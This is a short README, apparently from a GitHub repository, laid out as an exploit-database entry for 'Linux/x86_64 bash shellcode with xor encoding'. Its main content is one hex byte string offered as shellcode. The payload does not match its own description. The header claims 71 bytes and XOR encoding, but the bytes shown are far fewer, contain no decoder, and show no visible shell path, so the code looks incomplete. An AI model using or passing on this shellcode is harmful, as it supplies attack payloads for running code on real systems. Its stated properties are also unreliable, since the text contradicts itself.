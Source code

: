 # linux_bash_shellcode
Exploit Title: Linux/x86_64 - bash shellcode with xor encoding<br>
Date: 05/02/2023<br>
Exploit Author: Jeenika Anadani<br>
Contact: https://twitter.com/cyber_jeeni<br>
Category: Shellcode<br>
Architectue: Linux x86_64<br>
Shellcode Length: 71 Bytes<br>
# Bytecode - Little Endian
<code>"\x48\x31\xc0\x48\x89\x44\x24\xf8\x48\x8d\x7c\x24\xe0\x31\xc0\xb0\x3b\x0f\x05\x31\xc0\x89\xc3\xb0\x3c\x0f\x05"</code><br>
# References
https://www.exploit-db.com/shellcodes/51258</br>
